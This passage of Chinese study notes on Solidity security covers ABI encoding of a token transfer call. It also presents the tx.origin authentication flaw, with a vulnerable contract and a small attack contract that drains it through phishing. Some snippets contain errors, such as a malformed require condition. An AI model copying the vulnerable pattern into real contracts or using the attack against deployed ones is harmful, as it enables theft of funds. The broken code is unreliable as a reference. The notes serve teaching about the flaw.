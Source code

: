 跟ABI编码有关。

设有以下合约：

```javascript
function transfer(address to, uint amount) {
  require(balances[msg.sender > amount);
  balances[msg.sender] -= amount;
  balances[to] += amount;
}
```

A转给B，调用transfer的input，即msg.data为：

```javascript
// transfer的函数选择器 = bytes4(keccak256("transfer(address,uint)")
0xa9059cbb

// B地址, 填充到32字节
0x000....7800

// amount值, 填充到32字节
0x00...02
```

这个有很大疑问！

讲和不清不楚，包括网络上文章。

高位填充0，既然地址短了，不是也要高倍填充0到32字节么？怎么前面就填充，后面就不填充了？

## 3.5 tx.origin身份认证漏洞

tx.origin是一个全局变量，代表整个调用链中最初的发起者。

```javascript
A --> B --> C --> D
D内的msg.sender是C，tx.orgin就是A
```

容易受到钓鱼攻击，示例

```javascript
// 有问题的合约
contract A {
  address public owner;
  
  function withdrawAll(address to) public {
    require(tx.origin == owner);
    to.transfer(this.balance);
  }
}

// 攻击合约
contract Attack {
 A ph;
 address to;
  
  function() {
    ph.withdrawAll(to);
  }
}
```
